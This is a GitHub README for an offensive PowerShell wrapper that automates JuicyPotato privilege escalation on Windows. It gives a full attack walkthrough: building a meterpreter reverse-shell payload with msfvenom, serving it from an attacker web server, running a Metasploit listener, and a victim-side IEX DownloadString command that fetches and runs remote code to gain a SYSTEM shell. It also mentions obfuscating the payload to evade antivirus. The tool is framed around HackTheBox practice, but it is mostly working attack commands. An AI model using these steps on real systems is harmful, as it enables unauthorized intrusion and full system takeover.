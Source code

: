 # Lovely Potato (automating juicy potato)
*Powershell wrapper of [Decoder's JuicyPotato][1] for easy exploitation. **This entirely depends on the [original Juicy Potato binary][2] and utilizes [his test_clsid.bat][3].***

## Quick Guide
First clone this repo to your attacker machine which already has all of required dependencies:
```
root@attacker:~# git clone https://github.com/TsukiCTF/Lovely-Potato.git
root@attacker:~# cd Lovely-Potato
```
Then modify the two following variables in 'Invoke-LovelyPotato.ps1' as below (attacker machine IP, writable path on the victim machine):
```
$RemoteDir = "http://[AttackerIP]
$LocalPath = "[WritablePathOnVictimMachine]"
```
Now create a meterpreter binary on the attacker machine or use any other executable reverse shell:
```
root@attacker:~/Lovely-Potato# msfvenom -p windows/meterpreter/reverse_tcp LHOST=[AttackerIP] LPORT=[AttackerPort] -f exe -o meterpreter.exe
```
Start a web server in this repo to serve your meterpreter.exe and other dependencies:
```
root@attacker:~/Lovely-Potato# python3 -m http.server 80
```
On a new terminal, launch metasploit console (or any listener which handles whatever you are serving as a reverse shell):
```
root@attacker:~# msfdb run
msf5 > # I'm going to omit setting up the multi handler as it is something you should already know
```
Finally enter below command on victim's powershell console and you **MUST WAIT 10 minutes** for reverse shell running as user NT AUTHORITY\SYSTEM!
```
PS > IEX(New-Object Net.WebClient).DownloadString('http://[AttackerIP]/Invoke-LovelyPotato.ps1')
```

## Why Use Lovely Potato?
*For simplicity.*
Manually uploading various files to target host can be easily avoided with automation.
Also, listing entire CLSIDs on the system and identifying privilege for each of them takes very long time if done by sending commands.
You can easily switch binaries in the repo any time without having to recode Invoke-LovelyPotato.ps1.
Ex) Recompiling JuicyPotato for customization / Obfuscating your meterpreter for AV evasion

## Demo
Setting up & Testing Lovely Potato against HackTheBox machine (starting at 6:43)
https://youtu.be/f-JDU0GlRIw?t=403


[1]: https://github.com/ohpe/juicy-potato
[2]: https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts
[3]: https://github.com/ohpe/juicy-potato/blob/master/Test/test_clsid.bat
